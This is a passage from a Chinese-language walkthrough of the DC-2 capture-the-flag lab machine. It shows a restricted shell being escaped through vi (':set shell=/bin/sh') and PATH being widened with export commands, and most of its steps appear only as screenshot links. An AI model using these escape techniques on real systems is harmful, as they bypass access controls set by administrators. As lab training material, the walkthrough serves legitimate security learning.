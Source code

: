 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20200317122334519.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMjg4MTIz,size_16,color_FFFFFF,t_70)
登陆后发现是个受限shell，shell版本是4.3.30
![在这里插入图片描述](https://img-blog.csdnimg.cn/2020031712321456.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMjg4MTIz,size_16,color_FFFFFF,t_70)
需要绕过这个受限的shell，查看shell可执行的命令
>echo $PATH
>echo /home/tom/usr/bin/*

![在这里插入图片描述](【渗透项目】靶机DC-2渗透过程.assets/20200317124500877.png)
使用ls找到了当前目录下的提示3，并用vi即可查看内容
![在这里插入图片描述](【渗透项目】靶机DC-2渗透过程.assets/20200317125419829.png)
```
poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
```
提示是需要切换到其他用户去

**利用vi绕过受限shell**
>:set shell=/bin/sh
>:shell
>![在这里插入图片描述](https://img-blog.csdnimg.cn/20200317131013601.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMjg4MTIz,size_16,color_FFFFFF,t_70)![在这里插入图片描述](【渗透项目】靶机DC-2渗透过程.assets/20200317131100303.png)
>![在这里插入图片描述](【渗透项目】靶机DC-2渗透过程.assets/20200317131910259.png)

**更改环境变量**
获得的shell发现能够导入环境变量
>export -p
>export PATH=$PATH:/bin/
>
>export PATH=$PATH:/usr/bin